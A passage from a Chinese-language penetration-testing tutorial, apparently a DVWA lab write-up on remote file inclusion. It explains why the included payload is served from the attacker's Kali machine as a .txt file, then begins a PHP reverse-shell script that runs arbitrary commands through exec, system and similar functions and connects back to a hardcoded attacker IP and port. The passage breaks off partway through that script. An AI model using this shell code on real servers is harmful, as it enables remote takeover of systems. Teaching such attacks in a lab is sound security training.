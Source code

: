 此处说明一下为什么取名是 phpinfo.txt 而不是 phpinfo.php，原因是 Kali 的环境支持 php，能够解析并执行 php，所以在 include 的时候，首先判断该文件的后缀是否为 .php，然后看本地能否解析、运行 php，若是这两个条件都符合就会在 Kali 中执行然后把结果返回给 include 它的程序，反之 include 的程序就会将 include 内容读取到本地，然后在本地执行。

也就是说若是取名为 phpinfo.php 的话，就会在 Kali 本地中执行这段小程序，然后将得到的结果返回给 dvwa，给我们呈现出来，这样做是没有意义，从两个角度来讲：

- 从开发的角度来说，include 文件是为了重用代码，不用把已经实现的功能写很多遍，调用其中的函数或者类什么的，但是若是在远程设备上执行了返回结果过来是没有办法调用上面的函数、类等等。
- 从渗透测试的角度来讲，是为了攻击你的服务器，使用该机器上的功能，查看敏感信息，在我自己的服务器上运行，返回我自己服务器上的信息给我干嘛呢？

所以此处我们将文件的后缀名修改成 .txt，这样就不会在本地执行了，而 include 过去之后，解析文本便不是靠后缀名，其中若是没有 `<?php ?>` 的标志认定只不是一个 php 文件，直接将内容打印在页面上，若是有 `<?php ?>` 的标志位便解析，然后运行。

## 7. 远程文件包含进阶

若还是只能这样查看信息的话，就不能说他的危害很大了。

上述的实验我们只是在上面简单的执行了一个小程序而已，我们若是放一个反弹 shell 呢？挂个木马？嘿嘿，就和我们正常的 ssh 登陆上去差不多了。

所谓的反弹 shell 就是 reverse shell，在机器上开启某个端口，用该端口向我们的设备发起请求，只要我们监听了该端口，并且该端口没有被防火墙所阻挡我们就可以连接上发起请求的设备，就像使用 ssh 登陆 shell 一样目标机器。

通过我们在 Kali 设备的 Apache 根目录下使用 `vim test.txt` 创建并编辑文件，该文件中有输入这样的一些内容：

```php
<?php 

function which($pr) { 
$path = execute("which $pr"); 
return ($path ? $path : $pr); 
} 
function execute($cfe) { 
$res = ''; 
if ($cfe) { 
if(function_exists('exec')) { 
@exec($cfe,$res); 
$res = join("\n",$res); 
} elseif(function_exists('shell_exec')) { 
$res = @shell_exec($cfe); 
} elseif(function_exists('system')) { 
@ob_start(); 
@system($cfe); 
$res = @ob_get_contents(); 
@ob_end_clean(); 
} elseif(function_exists('passthru')) { 
@ob_start(); 
@passthru($cfe); 
$res = @ob_get_contents(); 
@ob_end_clean(); 
} elseif(@is_resource($f = @popen($cfe,"r"))) { 
$res = ''; 
while(!@feof($f)) { 
$res .= @fread($f,1024); 
} 
@pclose($f); 
} 
} 
return $res; 
} 
function cf($fname,$text){ 
if($fp=@fopen($fname,'w')) { 
@fputs($fp,@base64_decode($text)); 
@fclose($fp); 
} 
} 
$yourip = "192.168.122.101"; 
$yourport = '1111'; 
$usedb = array('perl'=>'perl','c'=>'c'); 
```